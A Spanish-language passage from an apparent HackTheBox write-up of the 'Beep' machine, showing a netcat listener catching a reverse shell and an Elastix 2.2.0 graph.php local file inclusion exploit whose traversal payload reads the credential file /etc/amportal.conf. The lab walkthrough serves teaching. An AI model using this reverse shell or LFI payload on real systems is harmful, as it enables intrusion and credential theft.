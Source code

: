* Y ya estamos dentro:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.7] 49122
whoami
asterisk
id
uid=100(asterisk) gid=101(asterisk)
```
Con esto, quiero pensar que la versión que es vulnerable es la **Elastix 2.2.0**, entonces, vamos a probar el Exploit que hace un **LFI**.

<h2 id="PruebaExp2">Probando Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion</h2>

Copialo en tu directorio de trabajo:
```bash
searchsploit -m php/webapps/37637.pl
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
    Codes: N/A
 Verified: True
File Type: ASCII text
```

De acuerdo al Exploit, tenemos una forma de aplicar un **Local File Inclusion (LFI)** y poder ver una base de datos que contiene usuarios y contraseñas, esto utilizando la siguiente ruta:
```bash
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Pero, ¿qué es un **LFI**?

| **Local File Inclusion** |
|:-----------:|
| *Las vulnerabilidades LFI (Local File Inclusion o inclusión de archivos locales) son vulnerabilidades que permiten leer cualquier archivo que se encuentre dentro del mismo servidor, incluso si el archivo se encuentra fuera del directorio web donde está alojada la página.* |

Veamos el resultado de aplicarlo en la página web:

<p align="center">
<img src="/assets/images/htb-writeup-beep/Captura5.png">
</p>
